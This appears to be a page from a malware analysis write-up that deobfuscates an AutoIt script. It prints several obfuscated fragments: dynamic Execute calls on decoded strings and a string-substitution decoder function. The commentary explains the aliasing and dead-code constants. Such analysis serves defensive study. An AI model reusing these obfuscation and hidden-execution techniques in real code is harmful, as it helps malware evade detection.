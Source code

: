 ```autoit
			$kkdygt = True
			ExitLoop
		EndIf
	Next
	If $kkdygt = False Then
		$tycocfgddh(nxlara($hauunuxlni & bbrfvej() & "" & ">(hu" & "" & cenlmetaefbs() & "" & scvbk() & $akneqgiits & $hhwbnd[91] & "" & $tsaabo))
		Exit
	Else
		Global $ifhbok = $bretzrnes(huslz("" & $xjxylhdbgpik))
		If $ifhbok = "" Then
			$ifhbok = robuh("" & "Um2" & "" & qbobehimrx())
		EndIf
		umwlcnpqy()
	EndIf
EndFunc
```
The variable `$kkdygt` is defined as False, `$hxgunslnvoqp` as `Local $hxgunslnvoqp = 331 / 331` so equal to 1, `apdpszx()` has the return of `Return 376 - 376` so equal to 0.
<br> But `$loptakx` is another story:
```autoit
$loptakx = $jtpebhivaeht(cxpclkhaarq("" & $wgakprflcmc & "" & $tgcbodidamzf & nebxzuhkbw() & "" & $hhwbnd[87] & "" & $hhwbnd[88] & "" & $hhwbnd[89] & "puV2d" & "" & $hhwbnd[90] & "" & "VB" & $cikmfzzgzvs & jeqcvmwvxxt() & gjyztaed() & "K" & xaheir() & $cnzvfbpz), mljbow("" & hcryswybbj()))
```
<br> `$jtpebhivaeht` is defined as `Execute`, `cxpclkhaarq` is the function `wanzeppkxbwu`:
```autoit
Func wanzeppkxbwu($jpoepgca)
	$qwyarxno = $hhwbnd[30] & "" & $eambenzcvdvn & "" & "t" & "" & $hhwbnd[31] & "" & $hhwbnd[32] & tfxpke() & "" & $hhwbnd[33] & $efsrh & dnvwvcjqt() & "" & sdrkqzqfrt() & "?g" & $edqmzgye & "" & $hhwbnd[34] & "" & $hhwbnd[35] & "N" & "" & "Vn" & "" & $hhwbnd[36] & "._" & "u#" & "" & $hhwbnd[37] & "" & $sbagzydue & $jzzfs & "" & $sngvqrwyrtnf & "" & ghneinwsczwn() & "a" & skjmysrcxuce() & "" & "&" & mgekiaoodq() & $yoqaxkf & $bwfzm & "" & $uuwqp & "" & $ahoipgdmonw & "" & "{0" & $xsqxreif & "" & "2" & "[" & "" & $ztagsubbllpf & ydkvqnum() & wnyebdjkkx() & "" & "GW)" & "" & hkdfwjeedtsk() & $sfiaun & "5]" & rxqwrwgdy() & "" & "f" & ybjzm() & $stgdo & "" & "<3" & "" & "m" & "" & "q" & ">" & kadnznhdlejk() & "8j" & $kbiqgxhyj & lpxty() & "" & bxglmgqytl() & "Z" & "" & $mrlijjcbr & "" & $hhwbnd[38] & "" & $hhwbnd[39]
	$wekfomhxyqf = $gevjrziwuj & liyimzhuyjb() & "" & "D" & "" & yjwrfhucd() & "=Y" & "Z)" & $eebpoy & xcrytctff() & jpleymguxhlq() & "" & mumrojklbr() & "g" & "" & $yxjywaja & "" & $hhwbnd[40] & "" & wexxtm() & $hhwbnd[41] & "" & $hhwbnd[42] & "" & "P" & nbfmdky() & "" & vgsnxik() & "o" & "" & $hhwbnd[43] & "" & $hhwbnd[44] & "v" & "e" & "." & "" & "0" & $copbkndbx & "" & $hhwbnd[45] & $hhwbnd[46] & "" & jtqmalf() & amgwihw() & $hhwbnd[47] & "" & twttad() & "" & "R&" & $hhwbnd[48] & "<" & "" & dzcaeo() & "K" & "" & $hhwbnd[49] & "" & "c" & "" & "+p" & $hhdgedvlvkl & tlgvjkdl() & "@" & qayvoyyp() & "" & mjopojtg() & ozirixnbzbmx() & sprlin() & $hmpexu & $mbljdmws & $hhwbnd[50] & "" & $hhwbnd[51] & "N" & "9" & $hhwbnd[52] & uhlldcg() & tjqlvowz() & "" & tcwieupeopr() & $hhwbnd[53] & "1" & "" & $hhwbnd[54] & $hhwbnd[55] & $uuocjrnuht & "" & $hhwbnd[56] & "" & tokwbfnli() & ":" & $hhwbnd[57]
	Local $tcmtaq = Execute($hhwbnd[58] & $hhwbnd[59] & "" & $hhwbnd[60] & hnrnueyd() & alabpxdb() & $qatcw & $hgdwcntsjcvo & guvuenf())
	Local $tpazve = Execute("" & "St" & "" & sxscidr() & $hpookkbivcrw & "" & phfdpuycr() & "" & "i" & "" & $hhwbnd[61])
	Local $mjquv = Execute(cxxudtshl() & "" & oqpfl() & "" & $nfbyopcmsbfj & qoklfhjskts() & $hhwbnd[62] & $hhwbnd[63])
	Local $bmroqxms
	$ibuiclergcj = $mjquv($jpoepgca)
	For $xwrvti = 0 + 0 To $ibuiclergcj
		$tejvw = $tpazve($jpoepgca, $xwrvti, $hhwbnd[27])
		$glopiobyw = $tcmtaq($qwyarxno, $tejvw, $hhwbnd[28])
		$rdganmja = $tpazve($wekfomhxyqf, $glopiobyw, $hhwbnd[29])
		$bmroqxms &= $rdganmja
	Next
	Return $bmroqxms
EndFunc
```
